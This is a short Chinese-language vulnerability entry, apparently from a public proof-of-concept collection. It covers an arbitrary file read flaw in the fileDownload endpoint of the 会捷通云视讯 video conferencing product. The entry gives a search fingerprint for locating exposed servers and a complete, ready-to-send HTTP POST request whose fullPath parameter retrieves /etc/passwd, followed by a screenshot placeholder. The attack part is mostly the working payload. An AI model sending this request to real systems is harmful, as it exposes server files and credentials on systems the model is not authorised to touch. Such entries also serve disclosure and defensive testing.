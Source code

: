 # 会捷通云视讯 fileDownload 任意文件读取漏洞

## 漏洞描述

会捷通云视讯 fileDownload 存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>会捷通云视讯</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/him/api/rest/v1.0/node/role"</a-checkbox></br>

## 漏洞复现

登陆页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145854036.png)



发送请求包

```plain
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: 
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

fullPath=%2Fetc%2Fpasswd
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145853963.png)



## 